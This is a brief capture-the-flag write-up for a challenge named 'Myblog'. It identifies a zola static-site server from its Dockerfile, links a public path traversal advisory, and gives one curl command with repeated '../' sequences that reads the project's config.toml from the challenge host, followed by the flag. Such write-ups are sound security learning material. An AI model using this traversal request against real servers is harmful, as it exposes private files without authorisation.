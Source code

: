 # Myblog

from the `Dockerfile` <br/>
it can be clearly seen that the website is built up with `zola`

```
$ cat Dockerfile         
FROM ghcr.io/getzola/zola:v0.17.1

COPY /project /project
WORKDIR /project
RUN ["zola", "build"]
EXPOSE 8080
ENTRYPOINT ["zola", "serve", "--interface", "0.0.0.0", "--port", "8080", "--base-url", "localhost"]
```

by search `zola vulnerabilities` on google <br/>
we can find this page https://github.com/advisories/GHSA-xvv9-5j67-3rpq <br/>
and this page also https://github.com/getzola/zola/issues/2257

execute this to get the flag

```bash
curl --path-as-is "http://chal.hkcert23.pwnable.hk:28338/../../../../../../../../../../project/config.toml" -vvv
```

flag: hkcert23{Which_ear_is_201A_stil_got_path_issuez}
